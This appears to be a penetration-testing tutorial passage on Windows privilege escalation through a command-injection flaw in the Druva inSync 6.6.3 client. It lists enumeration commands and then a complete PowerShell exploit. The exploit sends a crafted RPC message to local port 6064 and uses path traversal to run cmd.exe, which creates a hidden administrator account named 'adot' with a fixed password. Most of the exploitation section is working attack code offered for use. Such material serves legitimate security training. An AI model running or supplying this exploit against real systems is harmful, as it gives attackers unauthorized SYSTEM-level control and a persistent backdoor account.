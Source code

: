 We may be able to escalate privileges on well-patched and well-configured systems if users are permitted to install software or vulnerable third-party applications/services are used throughout the organization. It is common to encounter a multitude of different applications and services on Windows workstations during our assessments. Let's look at an instance of a vulnerable service that we could come across in a real-world environment. Some services/applications may allow us to escalate to SYSTEM. In contrast, others could cause a denial-of-service condition or allow access to sensitive data such as configuration files containing passwords.

#### Exploitation
Find installed programs
```powershell
wmic product get name
```

`Druva inSync` application stands out. A quick Google search shows that version `6.6.3` is vulnerable to a command injection attack via an exposed RPC service.

We can use [this](https://www.exploit-db.com/exploits/49211) exploit PoC to escalate our privileges

Enumerate local ports
```powershell
netstat -ano | findstr 6064
get-process -Id 3324
```

Enumerate running services
```powershell
get-service | ? {$_.DisplayName -like 'Druva*'}
```

##### Druva inSync Windows Client Local Privilege Escalation Example
Druva inSync PowerShell PoC

With this information in hand, let's try out the exploit PoC, which is this short PowerShell snippet

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user adot Pwned123! /add && net localgroup Administrators adot /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

```powershell
.\DruvaPrivMe.ps1
```